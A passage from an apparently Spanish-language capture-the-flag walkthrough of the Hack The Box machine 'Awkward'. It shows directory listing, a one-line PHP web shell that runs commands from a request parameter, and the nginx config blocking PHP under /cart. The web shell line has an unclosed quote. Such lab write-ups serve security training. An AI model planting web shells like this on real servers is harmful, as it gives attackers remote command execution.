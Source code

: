 El otro está vacío

```null
bean@awkward:/var/www/store/cart$ ls -la
total 8
drwxrwxrwx 2 root root 4096 Oct  6 01:35 .
drwxr-xr-x 9 root root 4096 Oct  6 01:35 ..
```

Creo un archivo en PHP que me permita ejecutar comandos

```null
<?php
system($_REQUEST['cmd]);
?>
```

Veo el archivo de configuración del ```ngnix```

```null
bean@awkward:/var/www/store/cart$ cat /etc/nginx/sites-available/store.conf 
server {
    listen       80;
    server_name  store.hat-valley.htb;
    root /var/www/store;

    location / {
        index index.php index.html index.htm;
    }
    # pass the PHP scripts to FastCGI server listening on 127.0.0.1:9000
    #
    location ~ /cart/.*\.php$ {
	return 403;
    }
    location ~ /product-details/.*\.php$ {
	return 403;
    }
    location ~ \.php$ {
        auth_basic "Restricted";
        auth_basic_user_file /etc/nginx/conf.d/.htpasswd;
        fastcgi_pass   unix:/var/run/php/php8.1-fpm.sock;
        fastcgi_index  index.php;
        fastcgi_param  SCRIPT_FILENAME  $realpath_root$fastcgi_script_name;
        include        fastcgi_params;
    }
    # deny access to .htaccess files, if Apache's document root
    # concurs with nginx's one
    #
    #location ~ /\.ht {
    #    deny  all;
    #}
}
```

En caso de que quiera apuntar a este script directamente, situado en ```/cart```, me va a devolver un código de estado 403. Filtro por funciones ```system``` en todos los scripts
